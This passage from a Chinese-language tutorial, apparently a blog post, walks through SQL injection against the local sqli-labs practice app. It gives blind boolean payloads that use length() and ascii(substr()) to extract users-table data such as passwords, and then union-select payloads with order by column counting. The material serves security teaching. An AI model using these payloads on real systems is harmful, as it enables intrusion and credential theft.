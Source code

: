 


5.判断字段中的数据



```
我们知道了users中有三个字段 id 、username 、password，我们现在爆出每个字段的数据       
1: 判断数据的长度      
// 判断id字段的第一个数据的长度      
http://127.0.0.1/sqli/Less-5/?id=1' and length((select id from users limit 0,1))>5       
// 判断id字段的第二个数据的长度      
http://127.0.0.1/sqli/Less-5/?id=1' and length((select id from users limit 1,1))>5       1
2：判断数据的ascii值      1
// 判断id字段的第一个数据的第一个字符的ascii值      1
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select id from users limit 0,1),1,1))>100       1
// 判断id字段的第一个数据的第二个字符的ascii值      1
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select id from users limit 0,1),2,1))>100       1
...........
```




二：union 注入

----------



[union](https://so.csdn.net/so/search?q=union&spm=1001.2101.3001.7020)联合查询适用于有显示列的注入。



我们可以通过order by来判断当前表的列数。最后可得知，当前表有3列



[http://127.0.0.1/sqli/Less-1/?id=1' order by 3 #](http://127.0.0.1/sqli/Less-1/?id=1'%20rel= "http://127.0.0.1/sqli/Less-1/?id=1' order by 3 #")



我们可以通过 union 联合查询来知道显示的列数



[127.0.0.1/sqli/Less-1/?id=1' union select 1 ,2 ,3 #](http://127.0.0.1/sqli/Less-1/?id=1'%20rel= "127.0.0.1/sqli/Less-1/?id=1' union select 1 ,2 ,3 #")



![](https://img-blog.csdn.net/20180823213715280?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



咦，这里为啥不显示我们联合查询的呢？因为这个页面只显示一行数据，所以我们可以用 and 1=2 把前面的条件给否定了，或者我们直接把前面 id=1 改成 id =-1 ,在后面的代码中，都是将 id=-1进行注入



```
http://127.0.0.1/sqli/Less-1/?id=1' and 1=2 union select 1,2,3 #       
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,2,3 #
```
